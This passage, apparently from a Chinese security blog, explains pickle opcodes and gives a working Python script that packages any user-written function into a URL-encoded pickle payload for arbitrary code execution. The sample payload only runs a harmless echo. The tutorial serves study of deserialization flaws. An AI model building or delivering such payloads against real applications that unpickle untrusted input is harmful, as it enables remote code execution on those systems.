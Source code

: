 ```
• S：代表本行后面的内容是String，即字符串。
• R：执行紧靠自己左边的一个括号对中的内容，即( 和他t直接的内容。
• .：点号结束pickle。
```
![avatar](../images/pickle.png)
最终的可以执行任意代码的payload生成器（第一种）,foo()函数中的部分是你应该自己编写替换的代码：
```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
import marshal
import base64
import cPickle
import urllib
def foo():#you should write your code in this function
    import os
    def fib(n):
        if n <= 1:
            return n
        return fib(n-1) + fib(n-2)
    print 'fib(10) =', fib(10)
    os.system('echo anycode >>poc.txt')
try:#尝试使用cPickle来序列号代码对象
    cPickle.dumps(foo.func_code)
except Exception as e:
    print e #TypeError: can't pickle code objects
code_serialized = base64.b64encode(marshal.dumps(foo.func_code))
print code_serialized

#为了保证code_serialized中的内容得到执行，我们需要如下代码
#(types.FunctionType(marshal.loads(base64.b64decode(code_serialized)), globals(), ''))()
payload =  """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))
print "------------------------------------------------"
print payload
fp =open("poc.pickle","w")
fp.write(payload)
print "------------------------------------------------"
print urllib.quote(payload)
```
注意：用于payload和上面一样还是需要url编码后的。
### 终极payload生成器
分析到最后，发现其实有老外已经做过更加底层，更加详细的分享，并且也提供了Poc生成脚本